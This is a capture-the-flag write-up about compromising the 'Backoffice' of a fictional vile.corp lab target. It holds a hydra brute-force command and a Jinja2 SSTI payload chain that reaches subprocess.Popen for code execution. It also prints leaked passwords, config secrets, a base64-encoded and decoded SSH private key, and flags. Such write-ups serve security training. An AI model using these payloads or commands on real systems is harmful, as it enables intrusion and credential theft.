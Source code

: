 # Backoffice

## Discovery

We found nothing interesting with the fuzzing

## SQL / Command Injection&#x20;

SQL injection potential. We save the query with BURP and use SQLMAP but no results come out

Neither with Command Injection

## Response Time&#x20;

We write a code to check if the response time is different between a good email and a bad email:

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

There is no significant difference between a good and a bad email address

## BruteForce

Elias Watters is the person responsible for processing the CVs that are uploaded from the front office. So he's an interesting person to bruteforce

{% code overflow="wrap" %}
```bash
[Oct 12, 2023 - 09:58:27 (CEST)] exegol-CTF_PJ /workspace # hydra -l elias.waters@vile.corp -P /usr/share/wordlists/rockyou.txt backoffice.vile.corp http-post-form "/login:email=^USER^&password=^PASS^:F=Utilisateur ou mot de passe incorrect" -f -t 64 -q -w 30 -I -m "Authorization: Basic dG9tLmdlbmRyeTpIdTMtaTN5aWVmCg=="
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).as
```
{% endcode %}

## Connection

If we use the email from Marco Baloti which was found in the .git/logs/HEAD as well the password found in the .git/config, we can connect to the BackOffice

* marco.baloti@vile.corp
* Vilecorp123!

## How does it work ?

When you register on the website https://frontoffice.vile.corp/nous-rejoindre, the request is send to the backoffice in the "Candidat" tab.



## SSTI

When trying some vulnerabilites, a SSTI was found

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

As we can see, the mathematical operation 7\*7 was interpreted.

As such, we need to list all class available and then find the Popen class to execute some code.

```bash
# List all class available
{{''.__class__.__mro__[1].__subclasses__()}}

# List all class from 0-NUMBER (Number is include)
{{''.__class__.__mro__[1].__subclasses__()[0-NUMBER:]}}

# Select the class with the ID Number
{{''.__class__.__mro__[1].__subclasses__()[NUMBER]}}
```

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

We found that the ID of the class Popen is 261. We can now execute fonction on the target.

{% code overflow="wrap" %}
```bash
{{''.__class__.__mro__[1].__subclasses__()[261]("ls",shell=True,stdout=-1).communicate()}}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We can use cat flag.txt to read the file:

CogiTF{7e9b62510e139f12a807d574ca92a24d}



In the file config.conf, we can found:

{% code overflow="wrap" %}
```tsconfig
confcat (b&#039;[cookie]
name = session
secret = FXYJzPAHawdaiyVznT57WUJPC273yCpiDjBPPTxhJEWww5sNDwcDoLBUgZ95YXkg
secure = False

[database]
name = vilecorp
user = vilecorp
password = DcNisoKDXEgFF7Bx7XUX
host = localhost
port = 5432
&#039;, Non
```
{% endcode %}

We have now the credentials to the databases

## SSH

While executing ls /home, we found an unique user: trooper

Attemps to create a reverse\_shell through the SSTI doesn't work even with the use of ngrok



<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We need to either modify authorized\_keys in trooper home folder or find the id\_rsa file.

### ls /home/trooper

```bash
277486 drwxr-xr-x 1 trooper trooper 4096 Oct 11 08:34 .
277304 drwxr-xr-x 1 root root 4096 Oct 11 08:34 ..
277516 -rw-r--r-- 1 trooper trooper 220 Oct 11 08:34 .bash_logout
277517 -rw-r--r-- 1 trooper trooper 3526 Oct 11 08:34 .bashrc
277518 -rw-r--r-- 1 trooper trooper 807 Oct 11 08:34 .profile
277487 drwxr-xr-x 2 trooper trooper 4096 Oct 11 08:34 .ssh
277492 -rw-r--r-- 1 trooper trooper 3357 Oct 11 08:34 id_rsa
277530 -rw-r--r-- 1 trooper trooper 726 Oct 11 08:34 id_rsa.pub
```

We can found in these folder the id\_rsa file. Now we need to copy it to a local file on our machine.

### base64 < /home/trooper/id\_rsa

{% code overflow="wrap" %}
```
LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFB\nQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUNGd0FBQUFkemMyZ3RjbgpOaEFBQUFB\nd0VBQVFBQUFnRUEwdFd4MmdZQUNlZUJKNXA0TXZ0UHdnVDFQaGJwbjcxNzl2V0lmYnFQMVlKbERz\nNGlVejBmCkVYUWY0eXBNUEZKTGtLL21hZlZoOTBBSTl5cS8yNGlqanN0OXl0M3VMWFJxZ0FTajVV\nN0tHTlpQTC9wWFNicFVHQlhXYk8Ka25RZlRmZkNYNFdqRHRDMy8vdGtZZ0J1Y3RUUS9xYlBEWkhF\na2JXM0o1ZUJ1cDR4QktWY0tIbHNoR3JLa1JweGFlMGRSUgpaSnU5ejlqaEpjWWlmd0ZRa05aUjAw\nT3I0Z2tVa00vOUdoZTk3NGxOTEkzVXQydUViMVYvenJ6eFhUTnFla2hhK1Y3R29jCk5DMWpGQ3hl\nZ05HcEg5bmQvNE42YURYTzRIVGJ4S0hZTEprR3ExQjRsTzNseDlaY3dpTWpTeS8xNk84d1BCQ04v\nMXZtbzYKbk94ZDlaN3VhUXl0czdFL04vV0hHZmxZSTZOQUtIbFFmMklxUG01MFNjRk1YeDZTUVFk\nK0VKVWRwM3RCdHE0ekFuZklENApKcDJEMjRBNVY4Z3A5b1R4WW9LNGY2eW1GK2hpbEZUelh4ZlMz\nVzB6OU1YSHphSk96WVZyb3N5cVVUeCtLQ042YnQwM0lwCm1MS3dibVhGempaOFM5b04wQkVzNnRL\nMXdRQk1lYTluV0RSUVFxMmtjRURjYS9PQ1Fpc2d3Z1dDZ1FQcnROWng4TTRMMSsKTDVhb3hmd3ZU\nenBSTjdsZ0JCQ3VtS21tOUxZVjdtS2tnS081ckxQWmZNQkZEVGNUR0s4S1pndXFmTGhSSkhyL051\na1VoMQpUVjRRbnJucjhjaEo2QXAwdCs4TW1FSGQzcS9iZnloK3BtZTVWN0hCdFJrd0tEYjBFemcr\nTElNU2prc0FScWZaVGlzNjVhCjhBQUFjNDFTNTBWOVV1ZEZjQUFBQUhjM05vTFhKellRQUFBZ0VB\nMHRXeDJnWUFDZWVCSjVwNE12dFB3Z1QxUGhicG43MTcKOXZXSWZicVAxWUpsRHM0aVV6MGZFWFFm\nNHlwTVBGSkxrSy9tYWZWaDkwQUk5eXEvMjRpampzdDl5dDN1TFhScWdBU2o1VQo3S0dOWlBML3BY\nU2JwVUdCWFdiT2tuUWZUZmZDWDRXakR0QzMvL3RrWWdCdWN0VFEvcWJQRFpIRWtiVzNKNWVCdXA0\neEJLClZjS0hsc2hHcktrUnB4YWUwZFJSWkp1OXo5amhKY1lpZndGUWtOWlIwME9yNGdrVWtNLzlH\naGU5NzRsTkxJM1V0MnVFYjEKVi96cnp4WFROcWVraGErVjdHb2NOQzFqRkN4ZWdOR3BIOW5kLzRO\nNmFEWE80SFRieEtIWUxKa0dxMUI0bE8zbHg5WmN3aQpNalN5LzE2Tzh3UEJDTi8xdm1vNm5PeGQ5\nWjd1YVF5dHM3RS9OL1dIR2ZsWUk2TkFLSGxRZjJJcVBtNTBTY0ZNWHg2U1FRCmQrRUpVZHAzdEJ0\ncTR6QW5mSUQ0SnAyRDI0QTVWOGdwOW9UeFlvSzRmNnltRitoaWxGVHpYeGZTM1cwejlNWEh6YUpP\nelkKVnJvc3lxVVR4K0tDTjZidDAzSXBtTEt3Ym1YRnpqWjhTOW9OMEJFczZ0SzF3UUJNZWE5bldE\nUlFRcTJrY0VEY2EvT0NRaQpzZ3dnV0NnUVBydE5aeDhNNEwxK0w1YW94Znd2VHpwUk43bGdCQkN1\nbUttbTlMWVY3bUtrZ0tPNXJMUFpmTUJGRFRjVEdLCjhLWmd1cWZMaFJKSHIvTnVrVWgxVFY0UW5y\nbnI4Y2hKNkFwMHQrOE1tRUhkM3EvYmZ5aCtwbWU1VjdIQnRSa3dLRGIwRXoKZytMSU1TamtzQVJx\nZlpUaXM2NWE4QUFBQURBUUFCQUFBQ0FCTE00M01obmRkRVFZd2FoaVZscTVNTmhpRG5RaVh3YTZG\nMQorNW5halFEcEE4SHlON1ZjZWV6QWdpZHJtaWkyM2U0bEFWTHBncmJkaXU4ZmJNUlN4dUx3Mm1M\nQXI0QjJKUmtOVU9BZHluCiswZkpNMnE1bnpkNVErUGtTdjljUTM1Y1hZVFBFZDg4Vld3S0tzVmli\nSGJvNjBvSjdlU3ozdWR2WU1tekJPcHpPTVBGU3gKYUEzV0JoZFhiQytPSU5OdEwyVGRUbXUrVnpW\nYkdiQmhtYUdRdXZNdjBaL3lWMWNpZE50aXlwa1ZrVUFyMVpBVmtsV3JOaAo1bFV0Q1F5U25tVWRa\neTBSdVRvZDRmdm1pUGJMdTEwUHZIQVFkVlhkbG5rRmNxTnlHeWkrN0kxU082NXNHRlZkbEIvcnFq\nCllHTE5OOG9MeDZiVzhiN3RFaFQwTHR5OE0xNFpPbjVMMk9WODZYY203ZzcybkxablowNUJLM1RU\nVVRUOEFKM01zWlFTOWwKSUNFdnovNUVEWEtwQ1BBYkxwZytMYkJtamVFTXlkc0o2T1RNQ2w3cms4\na0UyRDd1UTl0RFJPUndiNDk2QlNwaENZQXJVNwpqVW5ValNvbmNDenZ2dlBabGdTQkRuK2NSc0NG\nK3haUmJ3SDROTlRDM0N5QUlzeGZxTDhiSnhMdlo1ZFZOd3pMN2xiWXRLCnhULzBGa0pyTFlYdWtv\nMzFtZWtUK2xMeElhQWN5MVpGZ0Rqdk0wNkdkclJUbE5ZUG4xVVZ3T2hiSlNwaGtxR3M4VEFBZ2IK\nL1ZnakdZb0RBWmI0b0pMZGlIdzl2VU9hbXdUZGYrUTh1ZTRrYThHa2R1UDNqb2VDRzBuWURUR3J0\najMzdUdnNEZrT1JrbwpuWnNlWXNKQ0xoNkN6WXZKUmhBQUFCQVFDYVVKY0FOcW5Kb3UzSmR0Zm9B\nMkJGWGxNdDhiRUtaVW1IVklhOENvZnlYL3NaCnVxdzdrWERxSFBsMFpORTdmSkNXd2tnMjBVeUta\nTytWZkcrY3NBTmM3WG1QNXlzZzI3cGRCRFY4cEtESUk2YVJ2ZnBNZ1IKdm9ZWjVScmxES1VwNHdu\nUjFyMlg1Vno5dit4RkZtbmZyUTJTdjJ4czJjNXlMUXVLY3RqR3BRUU5FWGFVbThEZHFndmw0NQpH\nOTFXVE8xTmxoOXBRN2hZUCtUZVJRTlpVVis4SGwrelNOT09jU1FkeTlmaE1KWWt2bkk2NlNUMU82\nTlUyck5aS2QzZWkwClIrZ0hqaU1zalBhU3VIS2VraXRYN0NYRWFCSk4vTExBb2xmSVU1dFhHa3do\nNjdCNHZWem45M3BabHMwYzZNZ1FRZlVqZ00KOGlETDM1SlRNOHFKSHdOTUFBQUJBUUQwZ2s4dU45\nRys4Sm9WWlp1TEJFZGs1OFk2a05oeWwvSzNuRVkwRlVvaVhHd01pUQpFTFU0U3A2ZWwzV0swVVJl\nak1XT2Nkc3dEUGk0TGFsTElPRktMdXIwWXJKdDN0UjR6NDVmZ2cvOStXQVBSU3pQdHBkUXNrCjVk\nTC9MV3k0Vy9rek8rdFE2TXhDaVZkdXFEWFhwY0pYa2FVQ1lvSWp3NnJ6SlFNNWVkNk81VUhON0Uw\nZ2hYaXYwbDl5OGgKOXJFeloxZTVYSEtCUTVsYzFCS2NVSVEwQmhDVUl3VkhINytiVUhQSU9RcmF3\nRFhkM2NKWlBDWGYzd0xnY3BQU1JuRVRHeQpISFA0bWtEZ1VJbXQ0cUpaZWFiZUJ3SVJFa1pEd3VM\nM2xFbUYrbzBvanVqUVJ4a1p1b0syak9MQXBYaVBEYjQyamNxWnI3Cnp0b0ZCbTVaL2w1cTVMQUFB\nQkFRRGN2ai8yaVM0ODhSWTJ4a3JwbzVEL2U1TWNUMTM2TWRYWWpqTlJNaHhlZEtmWWNENlUKVW1Q\nN0JsbVhCd3NIVm1JV0JuUU83bHlPUm5JM09jNkVROEpnV0FIMEhRaDVpQWhIWGxDeFh5NGdrVFRr\nTWEwTGtkYm1ZTgpQcmR2SFZzV2tIVFJUNm5oT1BhNUJVdVhCbXdEZDJYNmVaOXh0SEdiRzNUY2FI\nUlRjbmtvNFZ5bHdGZlVkVlRkQm9Xb2J5CkI2d25EOTc2bWcvTXFJNGVQQ2Z1UlRhbUlvb2lyTEg5\ndEJuOHl6U2FGRzByMGxSSnNtcnA2WkNlZ0RjamdLYS9yMkJKNUgKWUJLZTR3Wmo1Yks3d1huMzdK\nTksrUHdsVUFiRkZ5WkplZDVzM1VTYVpERVZzTGMvcjNBVHVSajJ0NUFhNk5iSmkrL2o3Mgo4WjFU\na1JYSmp6ZXRBQUFBQUFFQwotLS0tLUVORCBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K
```
{% endcode %}

As we can see, thanks to the SSTI, we have now '\n' everywhere so we need to remove them before decoding the base64



Once decode, we have the file id\_rsa:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA0tWx2gYACeeBJ5p4MvtPwgT1Phbpn7179vWIfbqP1YJlDs4iUz0f
EXQf4ypMPFJLkK/mafVh90AI9yq/24ijjst9yt3uLXRqgASj5U7KGNZPL/pXSbpUGBXWbO
knQfTffCX4WjDtC3//tkYgBuctTQ/qbPDZHEkbW3J5eBup4xBKVcKHlshGrKkRpxae0dRR
ZJu9z9jhJcYifwFQkNZR00Or4gkUkM/9Ghe974lNLI3Ut2uEb1V/zrzxXTNqekha+V7Goc
NC1jFCxegNGpH9nd/4N6aDXO4HTbxKHYLJkGq1B4lO3lx9ZcwiMjSy/16O8wPBCN/1vmo6
nOxd9Z7uaQyts7E/N/WHGflYI6NAKHlQf2IqPm50ScFMXx6SQQd+EJUdp3tBtq4zAnfID4
Jp2D24A5V8gp9oTxYoK4f6ymF+hilFTzXxfS3W0z9MXHzaJOzYVrosyqUTx+KCN6bt03Ip
mLKwbmXFzjZ8S9oN0BEs6tK1wQBMea9nWDRQQq2kcEDca/OCQisgwgWCgQPrtNZx8M4L1+
L5aoxfwvTzpRN7lgBBCumKmm9LYV7mKkgKO5rLPZfMBFDTcTGK8KZguqfLhRJHr/NukUh1
TV4Qnrnr8chJ6Ap0t+8MmEHd3q/bfyh+pme5V7HBtRkwKDb0Ezg+LIMSjksARqfZTis65a
8AAAc41S50V9UudFcAAAAHc3NoLXJzYQAAAgEA0tWx2gYACeeBJ5p4MvtPwgT1Phbpn717
9vWIfbqP1YJlDs4iUz0fEXQf4ypMPFJLkK/mafVh90AI9yq/24ijjst9yt3uLXRqgASj5U
7KGNZPL/pXSbpUGBXWbOknQfTffCX4WjDtC3//tkYgBuctTQ/qbPDZHEkbW3J5eBup4xBK
VcKHlshGrKkRpxae0dRRZJu9z9jhJcYifwFQkNZR00Or4gkUkM/9Ghe974lNLI3Ut2uEb1
V/zrzxXTNqekha+V7GocNC1jFCxegNGpH9nd/4N6aDXO4HTbxKHYLJkGq1B4lO3lx9Zcwi
MjSy/16O8wPBCN/1vmo6nOxd9Z7uaQyts7E/N/WHGflYI6NAKHlQf2IqPm50ScFMXx6SQQ
d+EJUdp3tBtq4zAnfID4Jp2D24A5V8gp9oTxYoK4f6ymF+hilFTzXxfS3W0z9MXHzaJOzY
VrosyqUTx+KCN6bt03IpmLKwbmXFzjZ8S9oN0BEs6tK1wQBMea9nWDRQQq2kcEDca/OCQi
sgwgWCgQPrtNZx8M4L1+L5aoxfwvTzpRN7lgBBCumKmm9LYV7mKkgKO5rLPZfMBFDTcTGK
8KZguqfLhRJHr/NukUh1TV4Qnrnr8chJ6Ap0t+8MmEHd3q/bfyh+pme5V7HBtRkwKDb0Ez
g+LIMSjksARqfZTis65a8AAAADAQABAAACABLM43MhnddEQYwahiVlq5MNhiDnQiXwa6F1
+5najQDpA8HyN7VceezAgidrmii23e4lAVLpgrbdiu8fbMRSxuLw2mLAr4B2JRkNUOAdyn
+0fJM2q5nzd5Q+PkSv9cQ35cXYTPEd88VWwKKsVibHbo60oJ7eSz3udvYMmzBOpzOMPFSx
aA3WBhdXbC+OINNtL2TdTmu+VzVbGbBhmaGQuvMv0Z/yV1cidNtiypkVkUAr1ZAVklWrNh
5lUtCQySnmUdZy0RuTod4fvmiPbLu10PvHAQdVXdlnkFcqNyGyi+7I1SO65sGFVdlB/rqj
YGLNN8oLx6bW8b7tEhT0Lty8M14ZOn5L2OV86Xcm7g72nLZnZ05BK3TTUTT8AJ3MsZQS9l
ICEvz/5EDXKpCPAbLpg+LbBmjeEMydsJ6OTMCl7rk8kE2D7uQ9tDRORwb496BSphCYArU7
jUnUjSoncCzvvvPZlgSBDn+cRsCF+xZRbwH4NNTC3CyAIsxfqL8bJxLvZ5dVNwzL7lbYtK
xT/0FkJrLYXuko31mekT+lLxIaAcy1ZFgDjvM06GdrRTlNYPn1UVwOhbJSphkqGs8TAAgb
/VgjGYoDAZb4oJLdiHw9vUOamwTdf+Q8ue4ka8GkduP3joeCG0nYDTGrtj33uGg4FkORko
nZseYsJCLh6CzYvJRhAAABAQCaUJcANqnJou3JdtfoA2BFXlMt8bEKZUmHVIa8CofyX/sZ
uqw7kXDqHPl0ZNE7fJCWwkg20UyKZO+VfG+csANc7XmP5ysg27pdBDV8pKDII6aRvfpMgR
voYZ5RrlDKUp4wnR1r2X5Vz9v+xFFmnfrQ2Sv2xs2c5yLQuKctjGpQQNEXaUm8Ddqgvl45
G91WTO1Nlh9pQ7hYP+TeRQNZUV+8Hl+zSNOOcSQdy9fhMJYkvnI66ST1O6NU2rNZKd3ei0
R+gHjiMsjPaSuHKekitX7CXEaBJN/LLAolfIU5tXGkwh67B4vVzn93pZls0c6MgQQfUjgM
8iDL35JTM8qJHwNMAAABAQD0gk8uN9G+8JoVZZuLBEdk58Y6kNhyl/K3nEY0FUoiXGwMiQ
ELU4Sp6el3WK0URejMWOcdswDPi4LalLIOFKLur0YrJt3tR4z45fgg/9+WAPRSzPtpdQsk
5dL/LWy4W/kzO+tQ6MxCiVduqDXXpcJXkaUCYoIjw6rzJQM5ed6O5UHN7E0ghXiv0l9y8h
9rEzZ1e5XHKBQ5lc1BKcUIQ0BhCUIwVHH7+bUHPIOQrawDXd3cJZPCXf3wLgcpPSRnETGy
HHP4mkDgUImt4qJZeabeBwIREkZDwuL3lEmF+o0ojujQRxkZuoK2jOLApXiPDb42jcqZr7
ztoFBm5Z/l5q5LAAABAQDcvj/2iS488RY2xkrpo5D/e5McT136MdXYjjNRMhxedKfYcD6U
UmP7BlmXBwsHVmIWBnQO7lyORnI3Oc6EQ8JgWAH0HQh5iAhHXlCxXy4gkTTkMa0LkdbmYN
PrdvHVsWkHTRT6nhOPa5BUuXBmwDd2X6eZ9xtHGbG3TcaHRTcnko4VylwFfUdVTdBoWoby
B6wnD976mg/MqI4ePCfuRTamIooirLH9tBn8yzSaFG0r0lRJsmrp6ZCegDcjgKa/r2BJ5H
YBKe4wZj5bK7wXn37JNK+PwlUAbFFyZJed5s3USaZDEVsLc/r3ATuRj2t5Aa6NbJi+/j72
8Z1TkRXJjzetAAAAAAEC
-----END OPENSSH PRIVATE KEY-----
```

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

The id\_rsa file is not corrupt, so we can connect by ssh to the target machine:

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

FLAG: CogiTF{df2d539ddfb70403712484483e7ade83}
